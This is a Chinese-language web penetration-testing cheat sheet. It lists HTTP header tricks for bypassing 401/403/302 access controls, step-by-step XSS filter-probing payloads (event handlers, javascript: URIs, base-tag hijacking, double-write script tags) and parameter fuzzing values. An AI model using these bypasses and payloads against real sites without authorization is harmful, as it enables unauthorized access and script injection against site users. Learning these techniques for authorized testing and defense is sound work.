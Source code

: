 

如果遇见后台页面一闪而过，接着让你登录，一般使用了权限认证方式，可以用一下方式进行绕过，或者遇见401,403,302，都可以尝试使用以下方法：

一、GET /xxx HTTP/1.1 à403
Host: test.com
绕过：
GET /xxx HTTP/1.1 à200
Host: test.com
X-Original-URL: /xxx

二、GET /xxx HTTP/1.1 à403
Host: test.com
绕过：
GET /xxx HTTP/1.1 à200
Host: test.com
Referer: http://test.com/xxx

三、302跳转：拦截并drop跳转的数据包，使其停留在当前页面。
四、前端验证：只需要删掉对应的遮挡模块，或者是验证模块的前端代码。



如果遇见后台页面一闪而过，接着让你登录，一般使用了权限认证方式: 三、302跳转：拦截并drop跳转的数据包，使其停留在当前页面。这个操作我每次试都是不成功的，但是可以修改返回的302为200，然后删除掉Location字段。









# XSS

[某邮箱self-xss危害提升 - 火线 Zone-安全攻防社区](https://zone.huoxian.cn/d/118-self-xss)

（1）尝试插入比较正常的HTML标签，例如：`<a>`、`<b>`、`<i>`、`<u>` 等，来看一下返回页面的情况是怎样的，是否被HTML编码了，或者标签被过滤了。

（2）尝试插入不闭合的标签，例如：`<a`、`<b`、`i>`、`u>`、`<img` 等，然后看一下返回响应，是否对开放的标签也有过滤。

（3）然后测试几种常见的XSS向量：

- `<script>`标签

  ```js
  <script>alert(1)</script>
  <script>prompt(1)</script>
  <script>confirm(1)</script>
  ```

- 任意标签+事件组合

  ```js
  <a href='' onclick='alert(1)'></a>
  <img src="x" onerror=alert(1);>
  ```

- `href`，`src`等属性

  ```js
  <a href='javascript:alert(1)'></a>
  <iframe src=javascript:alert(1);></iframe>
  <form action="Javascript:alert(1)"><input type=submit>
  ```

- base标签

  如果攻击者在页面中插入了`<base>`标签，就可以通过在远程服务器上伪造图片，链接或脚本，劫持当前页面中所有使用”相对路径“的标签

  ```js
  <base href="http://www.google.com" />
  <img src="/intl/en_All/images/srpr/logolw.png" />
  ```

看返回响应，是过滤的全部，还是只过滤了部分，是否还留下了 alert、prompt、confirm 等字符，再尝试大小写的组合：

```js
<scRiPt>alert(1);</scrIPt>
```

（4）如果过滤器仅仅是把 `<script>` 和 `</script>` 标签过滤掉，那么可以用双写的方式来绕过：

```js
<scr<script>ipt>alert(1)</scr<script>ipt>
```

这样当 `<script>` 标签被过滤掉后，剩下的组合起来刚好形成一个完整的向量。

（5）用 `<a href` 标签来测试，看返回响应

```js
<a href="http://www.baidu.com">click</a>
```

看看 `<a` 标签是否被过滤，href 是否被过滤，href里的数据是否被过滤了。如果没有数据被过滤，插入javascript伪协议看看：

```js
<a href="javascript:alert(1)">click</a>
```

看是否返回错误，javascript的整个协议内容是否都被过滤掉，还是只过滤了javascript字符。

继续测试事件触发执行javascript：

```js
<a href=x onmouseover=alert(1)>ClickHere</a>
```

看onmouseover事件是否被过滤。

测试一个无效的事件，看看他的过滤规则：

```js
<a href=x onclimbatree=alert(1)>ClickHere</a>
```

是完整的返回了呢，还是跟onmouseover一样被干掉了。如果是完整的返回的话，那么就意味着，做了事件的黑名单，但是在HTML5中，有超过150种的方式来执行javascript代码的事件，我们可以选用别的事件。测试一个很少见的事件：

```js
<body onhashchange=alert(1)><a href=#>click</a>
```

> onhashchange 事件在当前 URL 的锚部分(以 '#' 号为开始) 发生改变时触发 。












## FUZZ

- 参数值

  ```
  置空
  删除
  undefined
  Null
  None
  %   # 模糊查询，可能直接全部查出来了
  程序溢出，int最大值为2147483647
  ```

- 隐藏的参数

  ```
  被动流量收集出现过的参数
  测试参数是否存在工具https://github.com/s0md3v/Arjun
  ```

  

​	





